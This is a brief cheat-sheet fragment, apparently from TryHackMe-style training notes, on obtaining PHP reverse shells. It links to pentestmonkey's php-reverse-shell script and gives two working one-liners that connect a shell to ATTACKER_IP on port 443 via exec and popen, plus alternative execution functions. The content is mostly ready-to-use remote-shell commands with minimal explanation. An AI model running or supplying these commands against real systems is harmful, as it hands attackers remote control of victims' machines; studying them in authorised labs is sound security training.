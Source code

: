 
https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz


exec function

```sh
target:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);exec("sh <&3 >&3 2>&3");' 
```

You can replace exec with other functions like shell_exec(), system(), passthru()

The `passthru` function executes a command and sends raw output back to the browser. This is useful when working with binary data.

`popen` is used to open a process file pointer
```shell-session
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);popen("sh <&3 >&3 2>&3", "r");' 
```


